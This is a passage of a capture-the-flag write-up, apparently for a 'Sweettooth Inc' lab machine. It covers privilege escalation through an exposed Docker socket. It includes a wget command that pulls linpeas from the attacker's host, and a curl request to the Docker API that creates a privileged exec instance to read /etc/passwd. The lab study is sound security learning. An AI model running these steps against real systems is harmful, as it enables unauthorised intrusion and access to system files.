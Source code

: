 ![image](https://user-images.githubusercontent.com/76821053/129367542-332de915-4507-470a-9c5f-b2d71dd72cf9.png)

From the target machine we can just use a few commands to download linpeas and make it executable:

```
wget http://your_host_ip_address:8000/linpeas.sh

chmod +x linpeas.sh
```

![image](https://user-images.githubusercontent.com/76821053/129367579-4701379c-8b79-4482-8f0f-a05c435f7b66.png)

I normally upload files to /tmp folder, since this directory will removes all of its contents at restart:

![image](https://user-images.githubusercontent.com/76821053/129367614-6d1856cb-f9b9-4f17-9907-54bec32bcfd1.png)

This linux kernel version is vulnerable to [Dirtyc0w](https://dirtycow.ninja/) exploit, but this machine has alot of missing tools like gcc or sudo so we cannot exploit it this way.

![image](https://user-images.githubusercontent.com/76821053/129367644-d6f00e3c-318c-4ab8-9ebe-249d54229428.png)

As we can see here a socat service is running in port 8080 which is very interesting:

![image](https://user-images.githubusercontent.com/76821053/129367761-a5d7087e-ecff-4e8f-acd3-b01789def9c4.png)

And since /var/run/docker.dock is vulnerable. We are going to privesc with a docker container. 

![image](https://user-images.githubusercontent.com/76821053/129367805-9f692b87-7d09-4558-8c26-5a04ad92942e.png)

You can check this [webpage](https://dejandayoff.com/the-danger-of-exposing-docker.sock/) has as reference in how to take advantage of docker's /var/run/docker.sock vulnerability:

Start by doing a simple curl command to the local webserver, the one that had socat service running on it:

![image](https://user-images.githubusercontent.com/76821053/129367841-c3ae9338-1aff-4d1b-af00-a8e680bc243c.png)

I used [prettier website](https://prettier.io/) to clean the response of the server:

![image](https://user-images.githubusercontent.com/76821053/129367869-d80ea512-9805-4ef0-8ed8-e3ebed87e5f8.png)

We have found a docker container with this information:

id: d01b55f75b089aea8d3a9516da167d3c4d2fe76e8d01b868f1c92915c1e311da

name: /sweettoothinc

image: sweettoothinc:latest

Having the id information of a docker container we will create an “exec” instance. This has to be done in order to run commands in this docker container:

```
curl -i -s -X POST \
-H "Content-Type: application/json" \
--data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
http://<docker_host>:PORT/containers/<container_id>/exec

docker_host: localhost
port:8080
container_id: febb84cfadcf26debd379329d6da0e8902873c4ec29c148c27e632fa7809146a
```

